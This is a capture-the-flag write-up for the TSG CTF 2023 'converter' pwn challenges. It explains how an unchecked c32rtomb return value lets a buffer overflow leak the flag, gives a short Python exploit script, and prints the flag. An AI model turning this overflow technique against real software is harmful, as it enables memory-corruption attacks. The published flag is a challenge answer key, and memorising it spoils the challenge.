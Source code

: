 # TSG CTF 2023 - pwn/converter

This solution is for both "converter" and "converter2".

## Solution

The bug is lack of return value checking in the code that converts a UTF-32 character to UTF-8:

```main.c:58
               utf8_ptr += c32rtomb(utf8_ptr, wc, &ps);
```

`c32rtomb` fails if an illegal UTF-32 character is given.
On failure, -1 is returned and added to `utf8_ptr`. This bug can be exploited to make `utf8_ptr` point into `utf32_hexstr[2]` and make `utf32_hexstr[2]` a longer string than expected. If you write a hex string that represents a valid UTF-32 character in this way, the conversion result will overflow `utf8_bin`.

```main.c:8
char utf32_hexstr[3][MAX_FLAG_CHARS * 8 + 1];
char utf8_bin[MAX_FLAG_CHARS * 4 + 1];
```

If the null terminator at the end of `utf8_bin` is overwritten, the following code will show the trailing bytes that includes the flag.

```main.c:71
        printf("Your input: %s\n", utf8_bin);
```

## Exploit

```python
m = [f"{ord(c):0>8x}" for c in "🚀".encode("utf-32be").hex()]
sc.after("Q1").send("ffffffff" * 22 + "".join(m) + "\n")
sc.after("Q2").send("\n")
sc.after("Q3").send("0001f680" * 31)
```



## Flag

```
TSGCTF{NoEmojiHereThough:cry:}
```

